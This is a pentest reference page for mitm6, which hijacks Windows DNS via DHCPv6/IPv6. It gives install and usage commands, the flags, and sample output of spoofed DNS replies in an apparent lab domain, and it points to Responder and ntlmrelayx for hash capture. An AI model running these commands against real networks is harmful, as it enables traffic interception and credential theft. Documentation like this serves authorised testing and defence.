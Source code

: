```yaml
---
title : "Mitm6"
# pre : ' '
description : "mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server."
date : 2020-05-16T14:54:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Mitm6

"pwning IPv4 via IPv6" - mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server.

### Installation

```plain
sudo pip3 install mitm6
```

### Usage

```plain
mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS] [-m ADDRESS] [-a] [-v] [--debug] [-d DOMAIN] [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]
```

### Flags

```plain
mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/fox-it/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default: autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default: autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default: mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which detect rogue Router Advertisements)
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Whitelist principle, multiple can be specified.)
  -b DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blacklist principle, multiple can be specified.)
  -hw DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Whitelist principle, multiple can be specified.)
  -hb DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blacklist principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully Qualified Domain Name (FQDN) option.
```

### Examples

#### ATTENTION

To run mitm6 without interrupting the use of internet from the clients, you need to forward packets do this by running the following besides mitm6.

```plain
watch -n1 sudo sysctl -w net.ipv4.ip_forward=1
```

#### Use tool to route whole network

Tip: use [Responder]({{< ref "responder" >}}) to capture hashes or [NTLMrelayx.py]({{< ref "ntlmrelayx-py" >}}) to relay hashes.

```plain
$ sudo mitm6

Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:00:00:00:b3]
IPv4 address: 10.10.10.45
IPv6 address: fe80::a00:27ff:fede:92b3
Warning: Not filtering on any domain, mitm6 will reply to all DNS queries.
Unless this is what you want, specify at least one domain with -d
IPv6 address fe80::4865:1 is now assigned to mac=00:00:00:00:00:29 host=WS10.offsec.nl. ipv4=
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
IPv6 address fe80::4865:3 is now assigned to mac=00:00:00:00:00:27 host=DC2019.offsec.nl. ipv4=
IPv6 address fe80::4865:4 is now assigned to mac=00:00:00:00:00:2b host=kali ipv4=
IPv6 address fe80::4865:5 is now assigned to mac=00:00:00:00:00:31 host=adguard-lab ipv4=
Sent spoofed reply for client.wns.windows.com. to fe80::4865:1
Sent spoofed reply for v10.events.data.microsoft.com. to fe80::4865:1
```

#### Specific target

```plain
sudo mitm6 -i eth0 -hw DC2016.offsec.nl
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
```

### URL list

* [GitHub.com - mitm6](https://github.com/fox-it/mitm6)
